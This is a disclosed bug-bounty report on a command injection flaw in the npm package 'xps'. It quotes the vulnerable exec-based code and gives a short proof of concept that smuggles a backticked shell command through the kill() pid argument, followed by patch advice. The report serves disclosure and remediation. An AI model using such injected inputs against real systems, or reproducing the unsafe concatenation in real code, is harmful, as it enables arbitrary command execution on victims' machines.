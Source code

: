 # [xps] Command Injection via insecure command concatenation

## Report Details
- **Report ID**: 865168
- **URL**: https://hackerone.com/reports/865168
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-03T10:10:58.198Z
- **Disclosed**: 2020-07-23T19:51:49.316Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `xps` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `xps`
**version:** `1.0.2`
**npm page:** `https://www.npmjs.com/package/xps`

## Module Description

xps is a cross-platform library for listing and killing processes.

## Module Stats

[10] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

Here's the code which causes the issue:

```javascript
// https://github.com/robotlolita/xps/blob/master/lib/linux.js#L48
...
var shell = require('./utils').shell;
... 
exports.kill = kill;
function kill(pid) {
  return shell('kill', ['-9', pid]).map(K(undefined));  // <-- user's input
}

// --------------------------------------------------
// https://github.com/robotlolita/xps/blob/master/lib/utils.js#L26
...
var exec    = require('child_process').exec;
...
var escapeArg = JSON.stringify;
...
exports.shell = shell;
function shell(cmd, args) {
  var command = cmd + ' ' + args.map(unary(compose(escapeArg)(String))).join(' '); // <-- injection
  return new Task(function(reject, resolve) {
    exec(command, function(error, stdout, stderr) {
      if (error)  reject(error);
      else        resolve({ output: stdout, error: stderr });
    });
  });
}
```
The argument `pid` is used to build the command that is passed to the `child_process.exec` function without any sanitization.


## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `xps` module:
    -  `npm i xps`
- create the following PoC JavaScript file (`poc.js`):

```javascript
const ps = require('xps');
ps.kill('`touch HACKED;`').fork();
```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F813050}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.exec`.
In this case it could be helpful to parse the pid as integer (`var pid = parseInt(pid)`).

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on a `xps` module via insecure command concatenation.

## Attachments
- poc_xps.mov
